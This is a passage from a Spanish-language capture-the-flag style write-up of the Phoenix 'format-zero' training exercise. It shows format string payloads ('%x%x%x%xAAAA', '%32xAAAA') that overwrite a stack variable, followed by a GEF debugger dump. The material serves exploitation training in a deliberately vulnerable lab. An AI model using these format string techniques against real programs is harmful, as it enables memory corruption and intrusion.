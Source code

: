 Al ejecutar el binario directamente comprobamos que el reto se completa exitosamente

```csharp
user@phoenix-amd64:~$ /opt/phoenix/amd64/format-zero 
Welcome to phoenix/format-zero, brought to you by https://exploit.education
%x%x%x%xAAAA
Well done, the 'changeme' variable has been changed!
user@phoenix-amd64:~$
```

Otra forma de resolverlo es utilizando el payload `%32xAAAA`, que fuerza a `printf` a imprimir 32 caracteres en hexadecimal antes de colocar las `A` lo que puede hacer que se modifique la variable`changeme`

```csharp
gef➤  r
Starting program: /opt/phoenix/amd64/format-zero 
Welcome to phoenix/format-zero, brought to you by https://exploit.education
%32xAAAA

Breakpoint 1, 0x00000000004006f2 in main ()
[ Legend: Modified register | Code | Heap | Stack | String ]
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x00007fffffffe630  →  "%32xAAAA"
$rbx   : 0x00007fffffffe6c8  →  0x00007fffffffe8b8  →  "/opt/phoenix/amd64/format-zero"
$rcx   : 0x00007ffff7ffc530  →  0x000000000000000a
$rdx   : 0x0               
$rsp   : 0x00007fffffffe620  →  0x00007fffffffe6c8  →  0x00007fffffffe8b8  →  "/opt/phoenix/amd64/format-zero"
$rbp   : 0x00007fffffffe670  →  0x0000000000000001
$rsi   : 0x00007ffff7ffc531  →  0x0000000000000000
$rdi   : 0x00007fffffffe639  →  0x0000000000000000
$rip   : 0x00000000004006f2  →  <main+85> lea rdx, [rbp-0x40]
$r8    : 0x00007ffff7ffb300  →  0x0000000000000005
$r9    : 0x00007fffffffe5ef  →  0x007fffffffe67000
$r10   : 0x1               
$r11   : 0x246             
$r12   : 0x00007fffffffe6d8  →  0x00007fffffffe8d7  →  "LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so[...]"
$r13   : 0x000000000040069d  →  <main+0> push rbp
$r14   : 0x0               
$r15   : 0x0               
$eflags: [carry PARITY adjust zero sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffe620│+0x0000: 0x00007fffffffe6c8  →  0x00007fffffffe8b8  →  "/opt/phoenix/amd64/format-zero"	 ← $rsp
0x00007fffffffe628│+0x0008: 0x0000000100000000
0x00007fffffffe630│+0x0010: "%32xAAAA"	 ← $rax
0x00007fffffffe638│+0x0018: 0x000000000000000a
0x00007fffffffe640│+0x0020: 0x0000000000000000
0x00007fffffffe648│+0x0028: 0x00007fffffffe6c8  →  0x00007fffffffe8b8  →  "/opt/phoenix/amd64/format-zero"
0x00007fffffffe650│+0x0030: 0x0000000000000001
0x00007fffffffe658│+0x0038: 0x00007fffffffe6d8  →  0x00007fffffffe8d7  →  "LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so[...]"
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x4006e2 <main+69>        call   0x4004f0 <errx@plt>
     0x4006e7 <main+74>        mov    BYTE PTR [rbp-0x31], 0x0
     0x4006eb <main+78>        mov    DWORD PTR [rbp-0x10], 0x0
 →   0x4006f2 <main+85>        lea    rdx, [rbp-0x40]
```